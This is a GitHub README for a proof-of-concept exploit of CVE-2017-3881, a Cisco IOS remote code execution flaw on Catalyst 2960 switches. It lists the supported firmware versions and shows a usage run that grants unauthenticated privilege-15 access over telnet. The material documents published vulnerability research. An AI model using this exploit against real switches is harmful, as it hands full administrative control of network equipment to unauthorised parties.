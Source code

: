 CVE-2017-3881 Cisco IOS remote code execution
===================


This repository contains Proof-Of-Concept code for exploiting remote code execution vulnerability disclosed by Cisco Systems on March 17th 2017 - <https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170317-cmp> 


Description
-------------
Exploit write-up is available here - <https://artkond.com/2017/04/10/cisco-catalyst-remote-code-execution/>

RCE exploit code is available for Cisco Catalyst 2960 switch model. This exploit is firmware dependent. Two firmware versions are supported:

- 12.2(55)SE1  C2960-LANBASEK9-M
 
- 12.2(55)SE11 C2960-LANBASEK9-M

Denial of service code is available as a metasploit ruby module. This should work for most of the switches mentioned in the Cisco advisory (confirmation needed).

Usage example
-------------

```
$ python c2960-lanbasek9-m-12.2.55.se11 192.168.88.10 --set
[+] Connection OK
[+] Recieved bytes from telnet service: '\xff\xfb\x01\xff\xfb\x03\xff\xfd\x18\xff\xfd\x1f'
[+] Sending cluster option
[+] Setting credless privilege 15 authentication
[+] All done
$ telnet 192.168.88.10
Trying 192.168.88.10...
Connected to 192.168.88.10.
Escape character is '^]'.

catalyst1#show priv
Current privilege level is 15
```


Author
------

Artem Kondratenko https://twitter.com/artkond

